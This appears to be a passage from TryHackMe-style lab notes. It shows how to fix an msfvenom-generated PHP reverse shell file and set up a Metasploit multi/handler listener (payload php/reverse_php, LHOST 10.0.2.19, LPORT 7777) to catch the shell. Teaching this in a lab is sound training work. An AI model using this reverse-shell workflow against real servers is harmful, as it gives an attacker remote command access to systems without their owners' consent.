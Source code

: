 Please note: The output PHP file will miss the starting PHP tag commented and the end tag (`?>`), as seen below.

<figure><img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/603df7900d7b6f1dff18b0bd/room-content/d82319bb6e03f8fbd8d005da9c31e59d.png" alt=""><figcaption></figcaption></figure>

The reverse\_shell.php file should be edited to convert it into a working PHP file.&#x20;

Below: Comments removed from the beginning of the file.

<figure><img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/603df7900d7b6f1dff18b0bd/room-content/49c2132c9bd568cc3201bb38ed4ff7a0.png" alt=""><figcaption></figcaption></figure>

Below: End tag added

<figure><img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/603df7900d7b6f1dff18b0bd/room-content/ae579463375c5847a0b99d46f93c4142.png" alt=""><figcaption></figcaption></figure>

***

We will use Multi Handler to receive the incoming connection. The module can be used with the `use exploit/multi/handler` command.

Multi handler supports all Metasploit payloads and can be used for Meterpreter as well as regular shells.

To use the module, we will need to set the payload value (`php/reverse_php` in this case), the LHOST, and LPORT values.

{% code title="Setting up the listener" %}
```shell-session
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload php/reverse_php
payload => php/reverse_php
msf5 exploit(multi/handler) > set lhost 10.0.2.19
lhost => 10.0.2.19
msf6 exploit(multi/handler) > set lport 7777
lport => 7777
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (php/reverse_php):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.19        yes       The listen address (an interface may be specified)
   LPORT  7777             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) >

```
{% endcode %}
